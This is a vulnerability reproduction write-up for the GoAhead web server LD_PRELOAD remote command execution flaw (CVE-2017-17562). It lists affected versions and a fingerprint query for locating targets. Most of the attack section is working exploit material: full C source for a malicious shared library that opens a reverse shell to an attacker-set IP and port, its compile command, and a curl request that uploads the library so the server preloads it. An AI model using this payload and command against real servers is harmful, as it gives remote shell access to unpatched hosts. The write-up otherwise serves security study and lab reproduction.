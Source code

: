 # Goahead LD_PRELOAD Remote Command Execution Vulnerability CVE-2017-17562

## Vulnerability Description

GoAhead supports running ASP, Javascript and standard CGI programs. This vulnerability comes from CGI programs.

This vulnerability uses the HTTP request parameter when the server initializes CGI, and uses a special parameter name LD_PRELOAD to hijack the libc library, thereby realizing remote command execution

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">GoAhead Web Server < 3.6.5</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">app="GoAhead"</span>

## Vulnerability reappears

Use the shooting range under Vulnhub to build

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1657072904829-9775cbdc-249f-42d1-8d8b-f7f016600500-20220706105534293.png)

Compile malicious so file

```php
#include<stdio.h>
#include<stdlib.h>
#include<sys/socket.h>
#include<netinet/in.h>

char *server_ip="";
uint32_t server_port=7777;

static void reverse_shell(void) __attribute__((constructor));
static void reverse_shell(void) 
{
  int sock = socket(AF_INET, SOCK_STREAM, 0);
  struct sockaddr_in attacker_addr = {0};
  attacker_addr.sin_family = AF_INET;
  attacker_addr.sin_port = htons(server_port);
  attacker_addr.sin_addr.s_addr = inet_addr(server_ip);
  if(connect(sock, (struct sockaddr *)&attacker_addr,sizeof(attacker_addr))!=0)
    exit(0);
  dup2(sock, 0);
  dup2(sock, 1);
  dup2(sock, 2);
  execve("/bin/bash", 0, 0);
}
gcc evil.c -fPIC -s -shared -o evil.so
```

Send evil.so malicious file

```php
curl -X POST --data-binary @evil.so http://xxx.xxx.xxx.xxx:8080/cgi-bin/index?LD_PRELOAD=/proc/self/fd/0
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1657073148130-d7efbdbc-8e97-49a7-bb81-fec751d8ef47.png)

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1657073168888-7499c581-7c81-4e43-ab46-87a35adb37b6.png)